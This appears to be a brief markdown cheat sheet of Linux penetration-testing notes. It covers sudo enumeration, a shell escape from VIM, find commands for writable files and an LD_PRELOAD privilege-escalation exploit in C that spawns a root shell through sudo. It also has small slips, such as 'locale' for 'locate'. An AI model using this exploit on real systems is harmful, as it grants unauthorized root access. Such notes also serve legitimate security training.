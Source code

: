 ### User and permission
-  List cmd that current user can execute as root without password
    ```bash
    sudo -l -S
    ```
- Get shell in VIM: `:!/bin/bash`

### File and directory
- Locate file fast: 
    ```bash
    locale filename
    ````
- Find file cooresponding to a user/group
    ```bash
    find / -group www-data 2>/dev/null
    ````
- Find file that is writable for current user
    ```bash
    find -type f -maxdepth 1 -writable 2>/dev/null
    ````

### Linux Privilege Escalation
- #### Resources:
    - https://book.hacktricks.xyz/linux-hardening/privilege-escalation
- #### LD_PRELOAD
    - Code injection with LD_PRELOAD, LD_PRELOAD is a shared library that will loaded before libc.
        ```c
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>
        // Get root shell
        void _init() {
            unsetenv("LD_PRELOAD");
            setgid(0);
            setuid(0);
            system("/bin/bash");
        }
        ```
        ```bash
        gcc -fPIC -shared -o /tmp/pe.so pe.c -nostartfiles # Complie
        sudo LD_PRELOAD=/tmp/pe.so <COMMAND>
        ```